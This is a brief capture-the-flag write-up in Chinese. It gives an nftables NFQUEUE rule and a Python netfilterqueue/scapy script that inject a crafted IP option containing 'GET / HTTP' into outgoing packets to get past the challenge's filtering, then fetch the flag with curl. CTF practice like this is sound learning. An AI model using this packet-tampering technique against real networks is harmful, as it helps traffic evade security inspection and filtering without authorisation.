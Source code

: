 nft.rules：

```nftables
flush ruleset
table ip firewall {
  chain outgoing {
    type filter hook output priority 0
    policy accept
    tcp dport {18080, 18082} queue num 3
  }
}
```

a.py：

```python
from netfilterqueue import NetfilterQueue, Packet
from scapy.all import *

def f(pkt: Packet) -> None:
    b = bytearray(pkt.get_payload())
    print("before", b)
    hl = b[0] % 16 * 4
    b[0] += 3  # ihl
    b[2] += (b[3] + 12) >> 8  # len
    b[3] = (b[3] + 12) & 0xff
    b[hl:hl] = b"\x02\x0cGET / HTTP"
    packet = IP(b)  # 借scapy算个校验和
    del packet[IP].chksum
    b = raw(packet)
    print("after", b)
    pkt.set_payload(b)
    pkt.accept()

nfqueue = NetfilterQueue()
nfqueue.bind(3, f)
try:
    nfqueue.run()
finally:
    nfqueue.unbind()
```

最后用题目提供的curl命令即可获得flag。

一开始02 0C的那地方写了00 00，不知道为啥不行，理论上第一个00就标记了选项到此结束的。看到一个叫做“Security (defunct)”的选项，就用它了。
